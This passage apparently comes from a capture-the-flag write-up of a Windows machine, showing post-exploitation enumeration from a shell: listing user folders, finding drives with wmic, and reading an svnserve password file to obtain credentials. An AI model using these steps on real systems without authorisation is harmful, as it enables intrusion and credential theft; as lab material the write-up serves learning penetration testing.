 We can obtain a more stable shell by enumerating the users. Remember, the svn protocol hosts past versions of websites, including users and their credentials 

we can tell the user we need by looking at `C:\Users`

```powershell
c:\windows\system32\inetsrv>cd C:\User
cd C:\User
The system cannot find the path specified.

c:\windows\system32\inetsrv>cd C:\Users
cd C:\Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 32D6-9041

 Directory of C:\Users

2020-07-07  16:53    <DIR>          .
2020-07-07  16:53    <DIR>          ..
2020-03-28  14:59    <DIR>          .NET v4.5
2020-03-28  14:59    <DIR>          .NET v4.5 Classic
2020-08-17  23:33    <DIR>          Administrator
2020-03-28  14:01    <DIR>          Public
2020-07-22  00:11    <DIR>          restorer
2020-07-08  18:22    <DIR>          robisl
               0 File(s)              0 bytes
               8 Dir(s)  10�258�767�872 bytes free
```

It looks like we need robsil.

Let's look for the svn config which usually resides in DRIVE_LETTER:\svnrepos

```powershell
wmic logicaldisk get caption
Caption
C:
W:

dir C:\svnrepos
Volume in drive C has no label.
 Volume Serial Number is 32D6-9041

 Directory of C:\

File Not Found

W:\svnrepos\www\conf>dir w:\svnrepos
dir w:\svnrepos
 Volume in drive W is Work
 Volume Serial Number is E82A-AEA8

 Directory of w:\svnrepos

2020-06-20  15:04    <DIR>          .
2020-06-20  15:04    <DIR>          ..
2020-06-20  10:29    <DIR>          www
               0 File(s)              0 bytes
               3 Dir(s)  18�766�790�656 bytes free


cat w:\svnrepos\www\conf\passwd
### This file is an example password file for svnserve.
```